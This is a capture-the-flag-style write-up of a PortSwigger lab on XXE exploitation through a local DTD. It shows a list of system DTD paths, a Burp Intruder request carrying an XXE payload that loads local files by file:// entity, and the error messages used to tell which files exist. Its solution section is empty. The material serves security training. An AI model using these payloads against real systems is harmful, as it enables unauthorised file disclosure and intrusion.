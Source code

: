 # Lab: Exploiting XXE to retrieve data by repurposing a local DTD
## Description

Great [article](https://www.gosecure.net/blog/2019/07/16/automating-local-dtd-discovery-for-xxe-exploitation/) which lead to the following attack plan:
* Find DTD files available on target system
* Enumerate the entities declared in each DTD
* Test each of the entities with common injection patterns
* Report the result summary to the console and the working payloads to a markdown file.

First, I used Burp Intruder to enum all DTD files using the following list of knwon DTD files:
```
./properties/schemas/j2ee/XMLSchema.dtd
./../properties/schemas/j2ee/XMLSchema.dtd
./../../properties/schemas/j2ee/XMLSchema.dtd
/usr/share/java/jsp-api-2.2.jar!/javax/servlet/jsp/resources/jspxml.dtd
/usr/share/java/jsp-api-2.3.jar!/javax/servlet/jsp/resources/jspxml.dtd
/root/usr/share/doc/rh-python34-python-docutils-0.12/docs/ref/docutils.dtd
/root/usr/share/doc/rh-python35-python-docutils-0.12/docs/ref/docutils.dtd
/usr/share/doc/python2-docutils/docs/ref/docutils.dtd
/usr/share/yelp/dtd/docbookx.dtd
/usr/share/xml/fontconfig/fonts.dtd
/usr/share/xml/scrollkeeper/dtds/scrollkeeper-omf.dtd
/usr/lib64/erlang/lib/docbuilder-0.9.8.11/dtd/application.dtd
/usr/share/boostbook/dtd/1.1/boostbook.dtd
/usr/share/boostbook/dtd/boostbook.dtd
/usr/share/dblatex/schema/dblatex-config.dtd
/usr/share/struts/struts-config_1_0.dtd
/opt/sas/sw/tomcat/shared/lib/jsp-api.jar!/javax/servlet/jsp/resources/jspxml.dtd
```

Then used Burp Intruder configuration as shown below:
```yaml
POST /product/stock HTTP/1.1
Host: acc21ff11e9b3c08c0ca34aa00de005d.web-security-academy.net
Cookie: session=ek3LOa0BJMPwnDYojg35mwemZ6oChYVl
Content-Length: 210
Content-Type: application/xml

<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [<!ENTITY % xxe SYSTEM "file://§FILENAME§"> %xxe;]>
<stockCheck>
	<productId>1</productId>
	<storeId>&xxe;</storeId>
</stockCheck>
```

This enum resulted in the following two error messages:

`XML parser exited with non-zero code 1: /usr/lib64/erlang/lib/docbuilder-0.9.8.11/dtd/application.dtd (No such file or directory)`

vs

`XML parser exited with non-zero code 1: The entity "xxe" was referenced, but not declared.`

Based on the output above, we can determine which files exists on the system. As stated in the Lab description, Portswigger is hinting at `/usr/share/yelp/dtd/docbookx.dtd` which happened to exist on the system! Yey!


## Solution

